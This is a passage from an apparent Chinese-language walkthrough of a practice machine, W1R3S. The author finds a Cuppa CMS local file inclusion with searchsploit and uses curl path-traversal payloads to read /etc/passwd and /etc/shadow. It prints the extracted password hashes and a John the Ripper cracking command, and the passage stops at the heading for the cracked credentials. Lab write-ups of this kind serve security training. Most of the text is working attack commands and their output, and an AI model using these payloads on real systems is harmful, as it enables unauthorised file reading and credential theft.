 访问administrator得到一个`Cuppa cms`安装页面

![image-20240528133629793](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240528133629793.png)

尝试发现并不能进行安装

猜测该网站就是搭建的这个cms，于是寻找该cms的漏洞

```bash
searchsploit cuppa cms
```

![image-20240528133934192](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240528133934192.png)

发现一个文件包含漏洞

#### 文件包含读取shadow

利用方式

```
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

尝试访问并没有回显，尝试搜索该cms的源码

![image-20240528134234698](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240528134234698.png)

发现需要POST传参

```bash
curl --data-urlencode "urlConfig=../../../../../../../../etc/passwd" http://192.168.56.127/administrator/alerts/alertConfigField.php
```

```
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

```bash
curl --data-urlencode "urlConfig=../../../../../../../../etc/shadow" http://192.168.56.127/administrator/alerts/alertConfigField.php
```

```
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.
```

得到几组hash

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

破解出的凭据
